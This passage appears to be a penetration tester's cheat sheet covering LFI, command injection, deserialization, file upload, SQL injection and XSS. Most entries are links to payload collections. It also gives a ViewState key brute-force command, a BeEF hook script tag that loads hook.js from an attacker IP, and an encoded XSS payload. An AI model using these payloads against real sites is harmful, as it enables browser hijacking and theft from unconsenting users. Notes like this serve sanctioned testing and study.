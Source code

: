 #### Tools

```
kadimus --url <URL>
python lfisuite.py
```

### Command injection

For command injection always use BurpSuite !

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```

### Deserialization

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization
https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net
https://notsosecure.com/project-blacklist3r
https://github.com/0xacb/viewgen

```

| **Command**                                                                                                                                                                                          | **Description**                                    |     |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------- | --- |
| `.\AspDotNetWrapper.exe --keypath .\MachineKeys.txt --TargetPagePath "/PATH" --encrypteddata VIEWSTATE --decrypt --purpose=viewstate --modifier=VIEWSTATEGENERATORVALUE -f out.txt --IISDirPath="/"` | Bruteforce encryption key for Encrypted Viewstate. |     |

### File upload

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
```

### SQL injection

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

https://cobalt.io/blog/a-pentesters-guide-to-sql-injection-sqli
```

### XSS

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

beef-xss
cat /usr/share/beef-xss/config.yaml | grep user -C 1 # user / password
<script src="http://<IP>:3000/hook.js"></script>

url=%26%2302java%26%23115cript:alert(document.domain)
```
